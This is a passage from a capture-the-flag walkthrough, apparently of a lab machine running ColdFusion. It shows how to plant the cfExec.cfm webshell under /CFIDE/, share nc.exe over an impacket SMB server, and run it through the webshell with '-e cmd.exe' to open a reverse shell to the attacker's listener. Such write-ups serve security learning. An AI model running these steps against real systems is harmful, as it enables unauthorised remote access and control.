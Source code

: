 After that is done, immediately start a web server with `http.server` or `updog` on port `80` and make sure that the [cfexec.cfm](https://raw.githubusercontent.com/fuzzdb-project/fuzzdb/master/web-backdoors/cfm/cfExec.cfm) is being hosted.

Subsequently, the `cfexec.cfm` will be downloaded and saved at `/CFIDE/cfexec.cfm`. We can then access it and we will see a webshell.

![](/assets/images/arctic7.png)

Now, lets upgrade to a reverse shell.

We first setup a `SMB` server with `smbserver.py` and make sure that `nc.exe` is being shared.

```bash
$ mkdir share
$ cd share
$ cp /usr/share/windows-resources/binaries/nc.exe .
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .                       
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

We then setup our `nc` listener

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

And then enter the following parameters into the webshell and hit `Exec`.

```
Command: \\10.10.XX.XX\kali\nc.exe
Options: -e cmd.exe 10.10.XX.XX 1337
```

After a while, we will receive a shell as `tolis`.
